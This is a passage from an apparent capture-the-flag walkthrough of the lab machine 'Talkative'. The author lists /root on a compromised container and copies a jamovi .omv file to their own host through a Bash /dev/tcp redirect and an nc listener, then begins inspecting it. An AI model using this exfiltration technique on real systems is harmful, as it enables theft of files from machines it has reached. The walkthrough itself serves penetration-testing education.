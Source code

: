 #### Home Dir

There are no home directories in `/home`, but there are some files in `/root`:

```

root@b06821bbda78:~# ls -la
total 28
drwx------ 1 root root 4096 Mar  7 23:19 .
drwxr-xr-x 1 root root 4096 Mar  7 23:18 ..
lrwxrwxrwx 1 root root    9 Mar  7 23:19 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x 3 root root 4096 Aug 22 17:10 .jamovi
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxrwxrwx 2 root root 4096 Aug 15  2021 Documents
-rw-r--r-- 1 root root 2192 Aug 15  2021 bolt-administration.omv

```

I’ll exfil the `bolt-administration.omv` file using Bash and `nc`. With `nc` listening from my host, from Talkative I’ll run:

```

root@b06821bbda78:~# cat bolt-administration.omv > /dev/tcp/10.10.14.6/443
root@b06821bbda78:~# md5sum bolt-administration.omv 
89a471297760280c51d7a48246f95628  bolt-administration.omv

```

At my host, the file is downloaded:

```

oxdf@hacky$ nc -lnvp 443 > bolt-administration.omv
Listening on 0.0.0.0 443
Connection received on 10.10.11.155 40266
oxdf@hacky$ md5sum bolt-administration.omv 
89a471297760280c51d7a48246f95628  bolt-administration.omv

```

The hashes match, so the file is good!

#### omv File

`.omv` files are documents from jamovi, but they are also just Zip archives:

```

oxdf@hacky$ file bolt-administration.omv 
bolt-administration.omv: Zip archive data, at least v2.0 to extract

```

There’s a standard file structure used by jamovi inside:
